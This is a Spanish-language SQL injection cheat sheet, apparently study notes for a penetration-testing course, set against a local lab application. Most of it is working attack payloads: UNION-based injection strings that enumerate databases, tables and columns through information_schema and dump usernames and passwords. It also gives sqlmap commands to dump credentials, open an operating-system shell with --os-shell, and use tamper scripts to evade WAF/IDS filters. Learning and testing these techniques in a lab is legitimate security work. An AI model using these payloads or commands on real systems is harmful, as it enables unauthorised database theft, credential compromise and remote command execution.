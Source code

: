 ```yaml
---

### 💥 **SQL Injection Cheat Sheet** 💥

---
```

---
#### 📝 **¿Qué es SQL Injection?**  
La **inyección SQL (SQLi)** es una vulnerabilidad que permite al atacante manipular consultas SQL realizadas por la aplicación para acceder o modificar datos de la base de datos.  
El atacante puede enviar consultas maliciosas a través de parámetros de entrada, explotando así la aplicación vulnerable.  

---

## 🔍 **Fase 1: Descubrimiento de Columnas con `ORDER BY`**  

Para determinar el número de columnas en la consulta SQL, se usa la cláusula **`ORDER BY`**:  
```sql
id=3' order by 100-- -
```
- **Si no da error:** El número de columnas es mayor o igual a 100.  
- **Si da error:** El número de columnas es menor a 100.  
- **Ajustar el número hasta encontrar el límite exacto.**  

---

## 🔗 **Fase 2: Exploración con `UNION SELECT`**  

Una vez conocida la cantidad de columnas, intentamos combinar los resultados de la consulta original con los nuestros:  
```sql
id=3' union select 1--
```
Esto debería mostrar el valor `1` en la columna inyectada si la consulta es exitosa.  

---

## 🗃️ **Fase 3: Enumeración de Bases de Datos**  

Para listar todas las bases de datos:  
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **`schema_name`:** Columna que contiene los nombres de las bases de datos.  
- **`information_schema`:** Esquema especial que almacena metadatos.  
- **`schemata`:** Tabla que contiene los nombres de las bases de datos.  

---

## 📝 **Concatenación con `group_concat()`**  
Si el resultado está limitado, usamos la función **`group_concat()`**:  
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```
También podemos usar **`LIMIT`** para obtener resultados específicos:  
```sql
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

---

## 🗂️ **Fase 4: Enumeración de Tablas**  

Para listar todas las tablas dentro de una base de datos:  
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

---

## 🧱 **Fase 5: Enumeración de Columnas**  

Para listar todas las columnas dentro de una tabla específica:  
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

---

## 🔑 **Fase 6: Extracción de Datos**  

Obtener los usuarios almacenados:  
```sql
id=32' union select group_concat(username) from users-- -
```

Obtener usuarios y contraseñas en conjunto:  
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

---

## 📝 **Aclaraciones Importantes**  

- **ORDER BY:** El número representa el total de columnas. Ejemplo:  
  ```sql
  id=1' order by 2-- -
  ```
- **UNION SELECT:** El número de columnas en el `SELECT` debe coincidir con la consulta original. Ejemplo:  
  ```sql
  id=1' union select 1,2-- -
  ```
- **Para verificar cuál columna refleja el valor, prueba con valores no válidos:**  
  ```sql
  id=-1' union select 1,2-- -
  ```
  - Una vez identificada la columna que refleja el resultado, inyecta comandos en esa posición:  
    ```sql
    id=-1' union select database(),2-- -
    ```

---

## 🛠️ **Automatización con SQLMap**  

### 🔎 **Enumeración de Bases de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
```

### 🗃️ **Listar Tablas de una Base de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u --tables
```

### 📝 **Listar Columnas de una Tabla:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users --columns
```

### 🔐 **Dumpear Información Sensible:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

### 🖥️ **Obtener Shell Remota:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --os-shell
```

---

## ⚙️ **Parámetros Útiles de SQLMap**
| Parámetro    | Descripción                                                         |
|-------------|---------------------------------------------------------------------|
| `--dbs`     | Lista todas las bases de datos.                                      |
| `--tables`  | Lista todas las tablas de una base de datos.                         |
| `--columns` | Lista todas las columnas de una tabla.                               |
| `--dump`    | Extrae los datos de la tabla especificada.                           |
| `--os-shell`| Intenta obtener una consola del sistema operativo.                   |
| `--risk`    | Nivel de riesgo (1-3).                                                |
| `--level`   | Nivel de pruebas (1-5).                                               |
| `--tech`    | Especifica técnicas de inyección.                                     |
| `--tamper`  | Usa scripts de evasión para eludir filtros WAF/IDS.                    |

---

